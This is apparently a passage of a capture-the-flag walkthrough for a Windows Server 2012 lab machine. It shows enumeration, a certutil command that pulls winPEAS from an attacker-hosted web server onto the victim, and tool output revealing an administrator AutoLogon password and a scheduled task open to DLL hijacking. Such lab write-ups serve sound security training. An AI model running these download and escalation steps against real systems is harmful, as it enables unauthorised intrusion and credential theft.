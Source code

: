 
## Privilege Escalation

### System Enumeration
Run `systeminfo` to gather system details:

```
Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
System Type:               x64-based PC
...
Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB2919355
                           [02]: KB2919442
                           ...
```

**Key Finding**: The system is a 64-bit Windows Server 2012 R2.

Download `winPEASx64.exe` from [GitHub](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe) to enumerate privilege escalation vectors.

1. Host a web server on your attacking machine:
   ```bash
   python3 -m http.server 3000
   ```

2. On the victim machine, download `winPEASx64.exe` using `certutil`:
   ```cmd
   certutil.exe -urlcache -f http://10.11.145.45:3000/winPEASx64.exe winPEASx64.exe
   ```

   ```
   ****  Online  ****
   CertUtil: -URLCache command completed successfully.
   ```

3. Run WinPEAS:
   ```cmd
   .\winPEASx64.exe
   ```

**Key Finding**:
WinPEAS reveals AutoLogon credentials:
```
Some AutoLogon credentials were found
DefaultUserName: administrator
DefaultPassword: 4q6XvFES7Fdxs
```

Additionally, it identifies a vulnerable scheduled task:
```
WindowsScheduler (Splinterware Software Solutions - System Scheduler Service) [C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [Allow: WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [Allow: WriteData/CreateFiles])
```

